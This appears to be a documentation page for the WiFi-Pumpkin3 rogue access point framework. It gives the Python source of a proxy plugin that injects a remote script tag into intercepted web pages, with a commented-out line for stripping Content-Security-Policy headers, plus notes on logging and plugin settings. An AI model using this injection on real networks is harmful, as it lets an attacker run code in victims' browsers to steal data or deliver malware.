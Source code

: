 another example how to rewrite packet in real time 
 ``` python
from wifipumpkin3.plugins.extension.base import BasePumpkin
from os import path
from bs4 import BeautifulSoup

class js_inject(BasePumpkin):
    meta = {
        "_name": "js_inject",
        "_version": "1.1",
        "_description": "url injection insert and use our own JavaScript code in a page.",
        "_author": "by Maintainer",
    }

    @staticmethod
    def getName():
        return js_inject.meta["_name"]

    def __init__(self):
        for key, value in self.meta.items():
            self.__dict__[key] = value
        self.ConfigParser = True
        self.url = self._config.get("set_js_inject", "url")

    def handleResponse(self, request, data):

        html = BeautifulSoup(data, "lxml")
        """
        # To Allow CORS
        if "Content-Security-Policy" in flow.response.headers:
            del flow.response.headers["Content-Security-Policy"]
        """
        if html.body:
            url = "{}".format(request.uri)
            metatag = html.new_tag("script")
            metatag.attrs["src"] = self.url
            metatag.attrs["type"] = "text/javascript"
            html.body.append(metatag)
            data = str(html)
            print("[{} js script Injected in [ {} ]".format(self._name, url))
        return data
```

### Logging 
all log will save data(pumpkin-prxoy.log) in your plugin.

### How to add argumments 
Now, if you want to add argumments in proxy.ini for show me on Pumpkin-Proxy->Settings.you need to add in directory "core/config/app/proxy.ini" the key (exampleplugin and set_exampleplugin).

* exampleplugin key is the option checkbox to change and enable or disable plugin
* set_exampleplugin this is key for search all argumments in Settings option.
![plugin_key](http://i.imgur.com/oSvErrZ.png)

